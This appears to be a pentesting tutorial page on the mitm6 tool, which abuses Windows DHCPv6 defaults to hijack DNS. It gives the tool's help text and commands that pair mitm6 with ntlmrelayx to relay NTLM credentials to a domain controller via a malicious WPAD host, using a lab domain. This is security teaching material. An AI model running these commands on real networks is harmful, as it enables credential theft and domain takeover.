 ```yaml
---
title: MITM6
categories: [Ethical Hacking Tools,Credential Access]
tags: [mitm6, credential access (TA0006), aitm, mitm, ntlmv2, kerberos ]
comments: true
---
```


## Overview

MITM6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, MITM6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. [^1]

MITM6 is also able to conduct credential relay attacks using the IMPacket `NTLMrelayx` tool to relay NTLM credentials for authentication and the `krbrelayx` tool that allows Kerberos authenitcation relays.

MITM6 comes packaged with Kali Linux by default.

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [mitm6](https://github.com/dirkjanm/mitm6) | v0.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) |

## MITM6 Help Page

```bash
usage: mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS]
             [-m ADDRESS] [-a] [-r TARGET] [-v] [--debug] [-d DOMAIN]
             [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]

mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/dirkjanm/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use
                        first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default:
                        autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default:
                        autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default:
                        mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which
                        detect rogue Router Advertisements)
  -r TARGET, --relay TARGET
                        Authentication relay target, will be used as fake DNS
                        server hostname to trigger Kerberos auth
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Allowlist
                        principle, multiple can be specified.)
  -b DOMAIN, --blocklist DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blocklist
                        principle, multiple can be specified.)
  -hw DOMAIN, -ha DOMAIN, --host-allowlist DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Allowlist
                        principle, multiple can be specified.)
  -hb DOMAIN, --host-blocklist DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blocklist
                        principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully
                        Qualified Domain Name (FQDN) option.
```

{: .nolineno }

## Instructions

### Using MITM6 to Perform a NTLM Relay Attack

1. Execute the below command on the attacker machine. Ensure that the `-i` switch is set to interface that is on the same network as the target and that `-d` is set to the local domain being targeted.

    ```bash
    sudo mitm6 -i eth0 -d darkcybe.malnet
    ```

    {: .nolineno }

2. Using the IMPacket `ntlmrelayx.py` script, set the target using the `-t` switch which in this example is set to the Domain Controller running LDAPS. `-wh` is set to name the malicious WPAD instance and `-l` to create a local file on the attacker machine in which the discovered loot will be dropped. [^2]

    ```bash
    ntlmrelayx.py -6 -t ldaps://10.10.10.10 -wh malwpad.darkcybe.malnet -l lootcrate
    ```

    {: .nolineno }

## Sources

[^1]: [Dirkjanm/mitm6 - Github](https://github.com/dirkjanm/mitm6)
[^2]: [Dirkjanm.io - The worst of both worlds: Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
